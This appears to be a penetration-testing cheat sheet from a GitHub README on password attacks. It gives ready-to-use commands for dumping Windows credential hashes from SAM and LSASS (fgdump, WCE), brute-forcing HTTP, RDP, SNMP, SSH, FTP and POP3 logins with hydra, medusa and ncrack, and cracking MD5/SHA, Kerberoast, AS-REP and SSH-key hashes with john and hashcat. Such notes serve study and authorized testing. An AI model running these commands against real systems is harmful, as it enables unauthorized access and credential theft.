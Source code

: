 - [Password_generator](#Password_generator)
  - [Crunch](#Crunch)
- [Windows](#Windows)
  - [pwdump](#pwdump)
  - [WCE](#WCE)
- [Password_cracking](#Cracking)
  - [HTTP](#HTTP)
  - [RDP](#RDP)
  - [SNMP](#SNMP)
  - [SSH](#SSH)
  - [FTP](#FTP)
  - [POP3](#POP3)
  - [krb5tgs](#krb5tgs)
  - [AS_REP](#AS-REP)
- [Password Hash](#Hash)
  - [Hash_identifier](#Hash_identifier)
  - [MD5](#MD5)
  - [SHA1](#SHA1)
  - [SHA256](#SHA256)
  - [SHA512](#SHA512)
- [Pass the hash](#Pass_the_hash)
- [SSH key cracking](#SSH_key_cracking)
  - [Cracking encrypted private key](#Cracking_encrypted_private_key)
    - [ssh2john](#ssh2john)
    - [john ](#john)
    - [tools](#tools)
 
## Password generato

### Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
##### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
##### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
------------------------------------------------------------------------------------------------------------------------
### Windows  

#### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------

### Password Profiling

#### cewl
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------  
  
### Cracking

#### HTTP
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http
- hydra [target_url] -l [user_name] -P [password_file] https-post-form 
/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"

#### RDP B
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP 
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH 
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP 
- hyrda -L [user_file] -p [password] [victim_ip] ftp

#### POP3 
- hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

##### Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
------------------------------------------------------------------------------------------------------------------------

### Hash 

#### Hash identifier
 - usage: hash-identifier
 
#### MD5
- john --format=raw-md5 --wordlist=rockyou.txt [hash.file]

#### SHA1
- john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]

#### SHA256
- john --format=raw-sha256 --wordlist=rockyou.txt [hash.file]

#### SHA512
- john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]

### TGSs 
- hashcat -m 13100 --force -a 0 hashes.file passwords.txt 

- john --format=krb5tgs --wordlist=passwords.txt hashes.file

#### AS_REP
- john --wordlist=passwords_kerb.txt hashes.file

- hashcat -m 18200 --force -a 0 hashes.file passwords.txt

------------------------------------------------------------------------------------------------------------------------

### Pass the hash

# //TODO!
------------------------------------------------------------------------------------------------------------------------

# SSH_Key_cracking

## Cracking_encrypted_private_key

### ssh2john
```
ssh2john.py encrypted_private_key > private_key.john
```
### john
```
john private_key.john --wordlist=/usr/share/wordlists/rockyou.txt
```

### tools
- https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
